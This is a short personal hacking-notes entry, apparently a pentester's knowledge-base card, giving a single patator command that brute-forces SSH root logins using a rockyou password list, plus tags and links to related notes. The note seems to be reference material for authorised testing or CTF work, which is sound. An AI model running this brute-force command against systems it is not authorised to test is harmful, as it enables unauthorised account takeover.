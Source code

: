# SSH brute force old key exchange algorithms
```bash
patator ssh_login host=$IP port=22 user=root 0=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

# References
- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:
    #assorted #hacking #bruteforcing
